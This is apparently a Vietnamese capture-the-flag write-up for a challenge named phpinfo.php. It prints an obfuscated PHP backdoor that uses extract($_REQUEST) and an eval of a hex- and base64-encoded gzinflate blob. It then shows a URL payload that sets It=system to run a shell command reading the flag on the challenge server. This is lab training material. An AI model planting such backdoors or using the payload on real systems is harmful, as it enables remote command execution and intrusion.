



## [phpinfo.php](https://ctf.viblo.asia/puzzles/phpinfo-php-vvyjdop2j3v)



```php
<?php
phpinfo();@extract($_REQUEST);eval("\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5F\x64\x65\x63\x6F\x64\x65\x28'TZFJk6JAFIT/S196JurQrAXEnNgVQQQFxPACxaIgNItgWb++6bEjZg4ZGZn5vdPL5+T26+2MIX/GAlycXqSeMSMuLiydvLi0SF8EX9s3I3Cvm78c89Oxr45dOHbZeWPJPxz83v7LjPiOT4qdcpZsrI8fVzynYRjA3mxgbKoPZ7P2T6tKJ4HccSVRabkoByDFh6wzJJpB7RaTuZsR62IHBNuZgl1JcXwIA6crMte17vbKubv1AUbebTUMw0g4kKaExOzUHG3bcOpuLPOmdQHKJxqQZGuxYHZVKKYMztppPnlRtMV4LPQE40qYR+gCg2VwYXdrObF63tTrq7bfirwrTmV1uwxqRa5Uu9IiREq5WBn38XEIS87JdPOxB3l/p0qJoJhXHBwbNq8EaZjxADLPmo20gF1rGvhMg8FJjcAikNa5vBOSW4P46UrbT4A+6qsyo/wo7KSc9wBXEM3qL+qI/F5IdNWlePNgMVCqPq2Gnjo/kTac3zoeB+lJlr1WdUsfPL0Y5UC0dpoW13QSbU6w9vwyfR6yhqb6xFRaFIYVDVDNy+b8idtaHp2yj9HFdVjW8htz3Y7QKbL9Pu2bqN9J4MTN78tHpX9ilbfff74A'\x29\x29\x29\x3B");echo($It($works));

```

Đọc qua 1 lượt ta thấy lại sử dụng hàm **extract**. Khi truy cập web thì ta nhận được 1 thông báo:



Ta truy cập tới file http://172.104.49.143:1302/phpinfo.php như đề bài thì đoạn code phía trên chính là của file này.

Ta lại truyền vào tham số để hàm extract trích xuất và tạo ra biến

Payload: [http://172.104.49.143:1302/phpinfo.php?It=system&works=cat%20ngoc_trinh_is_sexy](http://172.104.49.143:1302/phpinfo.php?It=system&works=cat ngoc_trinh_is_sexy)



`Flag{php_backdoor_is_sexy_too}`